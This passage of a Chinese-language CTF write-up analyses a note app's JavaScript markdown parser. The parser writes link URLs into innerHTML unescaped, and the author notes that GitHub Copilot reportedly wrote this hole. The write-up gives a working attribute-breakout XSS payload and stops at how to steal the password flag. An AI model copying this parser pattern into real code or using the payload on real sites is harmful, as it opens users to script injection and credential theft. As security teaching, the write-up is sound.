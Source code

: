 ``` js
        id: params.get('id')
      })
    })).json();

    if (!note) {
      alert('Invalid username, password, or note id');
      window.location = '/';
      return;
    }

    let text = note;
    if (mode === 'markdown') {
      text = text.replace(/\[([^\]]+)\]\(([^\)]+)\)/g, (match, p1, p2) => {
        return `<a href="${p2}">${p1}</a>`;
      });
      text = text.replace(/#\s*([^\n]+)/g, (match, p1) => {
        return `<h1>${p1}</h1>`;
      });
      text = text.replace(/\*\*([^\n]+)\*\*/g, (match, p1) => {
        return `<strong>${p1}</strong>`;
      });
      text = text.replace(/\*([^\n]+)\*/g, (match, p1) => {
        return `<em>${p1}</em>`;
      });
    }

    document.querySelector('.note').innerHTML = text;
    document.querySelector('.views').innerText = views;
  })();
})();
```

parse Makrdown 那一段就一臉可以 XSS 的樣子：

``` js
text = text.replace(/\[([^\]]+)\]\(([^\)]+)\)/g, (match, p1, p2) => {
        return `<a href="${p2}">${p1}</a>`;
      });
```

事後作者說他本來沒有想要在這邊留洞，這個洞是 GitHub copilot 寫出來的XD 但他覺得很有趣就留下來了。

這個 XSS 的洞並不難找

``` js
var text = '[abc](123" onfocus=alert`1` autofocus=")'
text = text.replace(/\[([^\]]+)\]\(([^\)]+)\)/g, (match, p1, p2) => {
  return `<a href="${p2}">${p1}</a>`;
});
console.log(text)
// <a href="123" onfocus=alert`1` autofocus="">abc</a>
```

但問題是有了 XSS 之後，該怎麼把密碼偷出來（密碼就是這題的 flag）？
